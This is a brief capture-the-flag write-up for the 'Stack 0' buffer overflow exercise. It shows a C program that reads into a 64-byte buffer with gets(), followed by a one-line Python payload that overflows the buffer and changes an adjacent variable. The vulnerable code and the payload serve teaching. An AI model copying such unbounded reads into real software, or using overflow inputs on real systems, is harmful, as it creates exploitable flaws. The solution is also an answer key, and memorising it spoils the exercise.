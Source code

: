 # Stack 0

### Task

```
  #include <stdlib.h>
  #include <unistd.h>
  #include <stdio.h>

  int main(int argc, char **argv)
  {
    volatile int modified;
    char buffer[64];

    modified = 0;
    gets(buffer);

    if(modified != 0) {
        printf("you have changed the 'modified' variable\n");
    } else {
        printf("Try again?\n");
    }
  }
```

### Solution
```
  python -c "print 'A'*64 + 'ABCD'" | ./stack0
```

![stack 0](./img/0.png)